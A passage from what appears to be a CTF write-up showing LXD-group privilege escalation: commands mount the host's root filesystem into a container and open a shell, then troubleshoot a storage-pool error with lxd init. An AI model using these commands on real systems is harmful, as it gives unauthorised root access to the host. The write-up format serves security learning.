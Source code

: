 ```bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

# execute container
lxc start privesc
lxc exec privesc /bin/sh
```

Let's execute `run.sh` and

![lxd-error](/images/team/team-lxd-error.png)

It didn't work?? Checking again on 
[hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#exploiting-without-internet){:target="_blank"}{:rel="noopener noreferrer"},
if we get the error
`Error: No storage pool found. Please create a new storage pool`
The solution is to run `lxd init` and then run the 
escalation commands again

```bash
lxd init
./run.sh
```
